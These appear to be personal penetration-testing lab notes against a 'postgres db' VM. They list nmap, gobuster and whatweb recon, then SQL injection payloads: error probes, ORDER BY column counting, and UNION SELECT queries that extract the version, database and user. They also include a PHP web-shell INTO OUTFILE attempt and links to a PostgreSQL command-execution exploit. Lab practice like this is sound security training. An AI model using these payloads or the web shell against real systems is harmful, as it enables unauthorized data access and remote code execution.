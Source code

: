 ### VM 3 - postgres db
```
nmap 192.168.206.49
nmap -sT -A 192.168.206.49
```

wordlists: https://www.kali.org/tools/wordlists/
```
gobuster dir -u http://192.168.206.49:80 -w /usr/share/wordlists/dirb/common.txt -p pattern
whatweb 192.168.206.49
```

http://192.168.206.49/class.php

test for sqli - expect to see an error output
```
1'
test@test.com'
test@test.com' OR 1=1 -- //
```

determine num cols on height
```
1' ORDER BY 1-- //
1' ORDER BY 2-- //
1' ORDER BY 3-- //
1' ORDER BY 4-- //
1' ORDER BY 5-- //
1' ORDER BY 6-- //
1' ORDER BY 7-- //
1' ORDER BY 8-- //
1' ORDER BY 9-- //
```

7 is beyond, so we have 6 cols
now determine vulnerable column
```
1' UNION SELECT null,cast(version() as int),null,null,null,null --
1' UNION SELECT null,cast(current_database() as int),null,null,null,null --
1' UNION SELECT null,cast(user as int),null,null,null,null --
```

database - glovedb
user - rubben
version - PostgreSQL 13.7 (Debian 13.7-0+deb11u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 10.2.1-6) 10.2.1 20210110, 64-bit

does not seem to work
```
' UNION SELECT null, "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" --
```

look up exploit on exploit db for db version
https://www.exploit-db.com/exploits/50847
https://github.com/b4keSn4ke/CVE-2019-9193
